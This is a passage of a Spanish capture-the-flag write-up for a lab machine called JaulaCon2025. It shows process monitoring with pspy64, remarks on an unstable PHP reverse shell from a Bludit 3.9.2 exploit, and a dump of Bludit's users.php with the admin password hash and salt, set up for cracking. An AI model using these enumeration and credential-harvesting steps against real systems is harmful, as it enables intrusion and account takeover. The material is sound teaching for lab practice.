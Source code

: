 Así encontramos lo que nos estaba dando problemas al aplicar la **Reverse Shell** con el Exploit:
```bash
www-data@JaulaCon2025:/tmp$ ./pspy64 
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d
...
2025/04/11 23:39:01 CMD: UID=0     PID=4851   | /bin/sh -e /usr/lib/php/sessionclean 
2025/04/11 23:39:01 CMD: UID=0     PID=4850   | /bin/sh -e /usr/lib/php/sessionclean 
2025/04/11 23:39:01 CMD: UID=0     PID=4854   | /bin/sh -e /usr/lib/php/sessionclean 
2025/04/11 23:39:01 CMD: UID=0     PID=4855   | /bin/sh /usr/sbin/phpquery -V 
2025/04/11 23:39:01 CMD: UID=0     PID=4858   | /bin/sh /usr/sbin/phpquery -V 
2025/04/11 23:39:01 CMD: UID=0     PID=4857   | /bin/sh /usr/sbin/phpquery -V 
2025/04/11 23:39:01 CMD: UID=0     PID=4859   | /bin/sh /usr/sbin/phpquery -V 
2025/04/11 23:39:01 CMD: UID=0     PID=4860   | /bin/sh /usr/sbin/phpquery -V 
2025/04/11 23:39:01 CMD: UID=0     PID=4861   | /bin/sh -e /usr/lib/php/sessionclean 
2025/04/11 23:39:01 CMD: UID=0     PID=4862   | /bin/sh -e /usr/lib/php/sessionclean 
```

Revisando este script, resulta que sirve para **limpiar sesiones caducadas de PHP**. Esto es parte del mecanismo de mantenimiento automático del sistema.

Es por eso que si ocupamos la **Reverse Shell de PHP** que indica el **Exploit Bludit 3.9.2 - Directory Traversal** será inestable.

De ahí en fuera, no encontramos nada más.

Pero, podemos revisar los archivos de **Bludit**:
```bash
www-data@JaulaCon2025:/var/www/html/bl-content$ ls
databases  pages  tmp  uploads	workspaces
```
Veamos qué nos encontramos por aquí.

<br>

<h2 id="Cracking">Enumeración de Archivos del CMS Bludit y Crackeando Hash MD5 en Crackstation.net</h2>

El directorio **databases**, contiene algunos archivos interesantes:
```bash
www-data@JaulaCon2025:/var/www/html/bl-content$ cd databases/
www-data@JaulaCon2025:/var/www/html/bl-content/databases$ ls -la
total 1840
drwxr-xr-x 3 www-data www-data    4096 Mar 25 19:57 .
drwxr-xr-x 7 www-data www-data    4096 Mar 25 19:34 ..
-rw-r--r-- 1 www-data www-data     442 Mar 26 11:59 categories.php
-rw-r--r-- 1 www-data www-data    1160 Mar 26 11:59 pages.php
drwxr-xr-x 7 www-data www-data    4096 Mar 25 19:34 plugins
-rw-r--r-- 1 www-data www-data 1845188 Apr 11 21:37 security.php
-rw-r--r-- 1 www-data www-data    1430 Mar 26 12:39 site.php
-rw-r--r-- 1 www-data www-data    2308 Apr 11 21:39 syslog.php
-rw-r--r-- 1 www-data www-data      52 Mar 26 11:59 tags.php
-rw-r--r-- 1 www-data www-data    1893 Mar 25 19:57 users.php
```

Veamos qué dice ese archivo **users.php**:
```bash
www-data@JaulaCon2025:/var/www/html/bl-content/databases$ cat users.php 
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrador",
        "lastName": "",
        "role": "admin",
        "password": "67def80155faa894bfb132889e3825a2718db22f",
        "salt": "67e2f74795e73",
        "email": "",
...
...
```